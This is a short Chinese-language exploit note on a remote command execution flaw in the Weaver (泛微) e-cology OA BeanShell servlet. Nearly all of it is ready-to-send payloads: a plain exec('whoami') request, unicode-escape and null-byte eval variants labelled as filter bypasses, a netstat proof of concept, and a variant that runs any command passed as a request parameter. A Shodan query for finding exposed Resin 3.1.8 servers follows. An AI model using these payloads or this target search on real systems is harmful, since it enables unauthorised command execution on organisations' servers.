

泛微OA命令执行漏洞

 漏洞URL：http://oa.www.com/weaver/bsh.servlet.BshServlet

漏洞exp 

payload1

`bsh.script=exec("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw`

payload2 bypass

`bsh.script=ex\u0065c("whoami");;&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw`

payload3 bypass

`bsh.script=\u0065\u0078\u0065\u0063("whoami");`

poc 1 

`bsh.script=\u0065\u0078\u0065\u0063("netstat -ano");;&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw`

Poc2: 

`bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.output=raw`

Poc3： `bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter("command"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami`

搜索引擎搜索

https://www.shodan.io/search?query=Server%3A+Resin%2F3.1.8 

参考资料 https://www.t00ls.net/thread-52924-1-1.html https://github.com/jas502n/e-cology

